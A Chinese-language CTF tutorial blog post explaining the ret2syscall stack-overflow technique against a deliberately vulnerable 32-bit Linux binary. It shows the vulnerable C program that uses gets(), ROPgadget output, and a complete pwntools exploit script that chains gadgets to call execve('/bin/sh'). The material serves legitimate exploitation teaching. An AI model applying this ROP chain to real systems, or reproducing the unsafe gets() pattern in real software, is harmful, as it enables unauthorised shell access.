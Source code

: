 ```yaml
---
title: ret2syscall攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2syscall

ret2syscall即return to system call，与ret2text和ret2shellcode类似，即在返回地址处进行*系统调用*，关于系统调用，可以阅读维基百科上的相关介绍——[系统调用](https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8)

> Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数。操作系统实现系统调用的基本过程是：
> 1. 应用程序调用库函数（API）；
> 2. API 将系统调用号存入 EAX，然后通过中断调用使系统进入内核态；
> 3. 内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）；
> 4. 系统调用完成相应功能，将返回值存入 EAX，返回到中断处理函数；
> 5. 中断处理函数返回到 API 中；
> 6. API 将 EAX 返回给应用程序;
>
> 应用程序调用系统调用的过程是：
> 1. 把系统调用的编号存入 EAX；
> 2. 把函数参数存入其它通用寄存器；
> 3. 触发 0x80 号中断（int 0x80）。

# ret2syscall示例代码

``` c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```

本节示例的漏洞程序可以从此处下载：[ret2syscall](/files/ret2syscall)
# 漏洞分析

那么我们现在要通过系统调用执行以下命令获得一个shell
``` c
execve("/bin/sh", NULL, NULL)
```

那么很明显，我们需要完成的目标有如下：

* 获得execve的系统调用号
* 将execve的系统调用号赋给eax寄存器
* 将第一个参数"/bin/sh"的地址赋值给ebx寄存器
* 第二个参数NULL赋值给ecx寄存器
* 第三个参数NULL赋值给edx寄存器
* 触发 0x80 号中断(int 0x80)

关于各个函数的系统调用号，我们可以根据这个手册进行查询：[Linux Syscall Reference](http://syscalls.kernelgrok.com/)

我们可以查到execve的系统调用号为*0x0b*，而在系统调用时，eax是存放系统调用号，ebx,ecx,edx分别存放前3个参数，esi存放第4个参数，edi存放第5个参数，而Linux系统调用最多支持5个单独参数。如果实际参数超过5个，那么使用一个参数数组，并且将该数组的地址存放在ebx中。

那么我们如何将参数传递给各个寄存器呢？其实这里是利用到了 *ROP(Return-oriented programming)* 攻击技术，其实这是一种常见的代码复用技术，通过使用程序已有的机器指令(称之为gadget，注意，是机器指令)，来劫持程序控制流。

那么我们接下来就进行演示吧。我通常使用*ropgadget*来帮助搜索gadgets

首先是控制eax的gadget

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

这里我们选择使用`pop eax ; ret`控制eax寄存器

```bash
0x080bb196 : pop eax ; ret
```

同理我们选择了下面这条gadgets，可以一次控制3个寄存器
``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx' | grep 'ecx' | grep 'edx'
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```
接下来我们要查询`"/bin/sh"`以及`int 0x80`的地址

``` bash
➜  ret2syscall ROPgadget --binary ret2syscall --string "/bin/sh"
Strings information
============================================================
0x080be408 : /bin/sh
➜  ret2syscall ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```


通常我们gadget的利用方法是`address of gadget + param for register`，那么接下来我们可以构造对应参数进行系统调用

# 攻击代码

``` python
#encoding:utf-8
from pwn import *

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh = 0x080be408
int_0x80 = 0x08049421

payload = 'A' * 112#用以往定位偏移的方法得到
payload += p32(pop_eax_ret) + p32(0x0b)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0x00) + p32(0x00) + p32(bin_sh)
payload +=p32(int_0x80)

io = process('ret2syscall')
io.sendline(payload)
io.interactive()
```

这样我们就通过控制寄存器传入参数，模拟了系统调用执行`execve("/bin/sh", NULL, NULL)`的过程

